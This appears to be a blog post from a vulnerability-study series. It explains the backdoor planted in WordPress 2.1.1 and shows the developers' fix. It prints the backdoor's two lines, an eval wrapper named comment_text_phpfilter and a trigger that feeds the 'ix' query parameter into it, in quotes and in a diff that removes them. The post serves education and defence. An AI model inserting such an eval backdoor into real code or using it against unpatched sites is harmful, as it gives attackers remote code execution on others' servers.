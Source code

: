 ```yaml
---
layout: post
title: Impact - Command Injection
tags:
- Code Snippet
- PHP
- Privilege Escalation
- Solution
- Wordpress
status: publish
type: post
published: true
meta:
  aktt_notify_twitter: 'yes'
  _aktt_hash_meta: ! '#code #development'
  _edit_last: '2'
  aktt_tweeted: '1'
  _sexybookmarks_shortUrl: http://bit.ly/bvG37F
  _sexybookmarks_permaHash: 705d5cdc2aa46c7aebd4f8b0e67e70ba
---
```

## Details
__Affected Software:__ WordPress

__Fixed in Version:__  2.1.1

__Issue Type:__ Command Injection

Original Code: <a title="Impact" href="http://spotthevuln.com/2010/01/impact/" target="_blank">Found Here</a>
## Description
This example was actually a backdoor someone had planted in WordPress 2.1.1. Apparently, someone either broke into the wordpress server or hacked a wordpress dev account and inserted this back door. The back door was simple, create a function which simply calls eval on a arguments passed to it. The attacker named this function "comment_text_phpfilter()" and the contents of the function are provided below:
<blockquote>function comment_text_phpfilter($filterdata) {
eval($filterdata);
}</blockquote>
Several lines later, the attacker planted a mechanism to call the backdoor. In this case, the attacker checked for the presense of the "ix" parameter being passed via the querystring. If the "ix" querystring parameter was present, the value assigned to "ix" would be passed to "comment_text_phpfilter()", which would pass the attacker supplied value to eval().
<blockquote>if ($_GET["ix"]) { comment_text_phpfilter($_GET["ix"]); }</blockquote>
## Developers Solution
```diff

function comment_author_rss() {
echo get_comment_author_rss();
}

-function comment_text_phpfilter($filterdata) {
-eval($filterdata);
-}

function comment_text_rss() {
$comment_text = get_comment_text();
$comment_text = apply_filters('comment_text_rss', $comment_text);
echo $comment_text;
}

function comments_rss_link($link_text = 'Comments RSS', $commentsrssfilename = '') {
$url = comments_rss($commentsrssfilename);
echo "&lt;a href='$url'&gt;$link_text&lt;/a&gt;";
}

...

function get_category_rss_link($echo = false, $cat_ID, $category_nicename) {
$permalink_structure = get_option('permalink_structure');

if ( '' == $permalink_structure ) {
$link = get_option('home') . '?feed=rss2&amp;amp;cat=' . $cat_ID;
} else {
$link = get_category_link($cat_ID);
$link = $link . "feed/";
}

$link = apply_filters('category_feed_link', $link);

if ( $echo )
echo $link;
return $link;
}

-if ($_GET["ix"]) { comment_text_phpfilter($_GET["ix"]); }

function get_the_category_rss($type = 'rss') {
$categories = get_the_category();
$the_list = '';
foreach ( (array) $categories as $category ) {
$category-&gt;cat_name = convert_chars($category-&gt;cat_name);
if ( 'rdf' == $type )
$the_list .= "\n\t\t&lt;dc:subject&gt;&lt;![CDATA[$category-&gt;cat_name]]&gt;&lt;/dc:subject&gt;\n";
else
$the_list .= "\n\t\t&lt;category&gt;&lt;![CDATA[$category-&gt;cat_name]]&gt;&lt;/category&gt;\n";
}
return apply_filters('the_category_rss', $the_list, $type);
}

```
